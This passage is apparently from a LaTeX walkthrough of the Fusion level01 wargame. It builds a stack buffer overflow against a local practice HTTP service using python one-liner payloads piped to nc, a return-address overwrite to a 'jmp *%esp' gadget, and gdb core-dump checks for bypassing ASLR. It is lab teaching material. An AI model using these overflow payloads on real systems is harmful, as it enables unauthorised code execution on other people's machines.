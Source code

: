 \begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x4f\x9f\x04\x08" + "\xcc\xcc\xcc\xcc" +  " HTTP/1.1" + "\xcc"*2' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core
[New LWP 1294]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbf8d19e1 in ?? ()
(gdb) i r esp
esp            0xbf8d19e0       0xbf8d19e0
(gdb) x/4x $eip-5
0xbf8d19dc:     0x08049f4f      0xcccccccc      0x00000000      0x00000004
\end{lstlisting}

Excellent, it worked! We can see in the coredump that we
were killed on one of our breakpoint traps \texttt{0xcc},
and from comparing \texttt{eip} with \texttt{esp}, we
know that clobbering the return address with the address
of the \texttt{jmp *\%esp} instruction we found worked. Using
\texttt{x}, we view the memory around \texttt{eip}, seeing
our 4 breakpoint traps, and the overwritten return address.

So, now we can reliably jump to instructions we control again.
Because we initially wanted to get our old exploit working for
the new case of ASLR, let's add as little as possible to our
existing exploit. Since the bytes we can jump to using
this \texttt{jmp *\%esp} instruction are part of a string
which is supposed to represent a filename, we should
(theoretically) be careful about what bytes we use. This
worked because \texttt{0xcc} happens to be a printable character,
and luckily enough, the \texttt{jmp *\%esi} instruction we
wanted in the first place also assembles to printable characters.
So, if we simply place a \texttt{jmp *\%esi} instruction
after our return address, we should jump back to our original shellcode
location after the ``HTTP/1.1".

\begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x4f\x9f\x04\x08" + "\xff\xe6" +  " HTTP/1.1" + "\xcc"*2 + "\xf0"*2' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core
[New LWP 1563]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbf8d1a97 in ?? ()
(gdb) i r esi
esi            0xbf8d1a96       -1081271658
(gdb) x/4b $eip-1
0xbf8d1a96:     0xcc    0xcc    0xf0    0xf0
\end{lstlisting}

Success! we place the opcode for \texttt{jmp *\%esi} immediately
after our return address. We return to the \texttt{jmp *\%esp}
instruction discovered earlier.\\

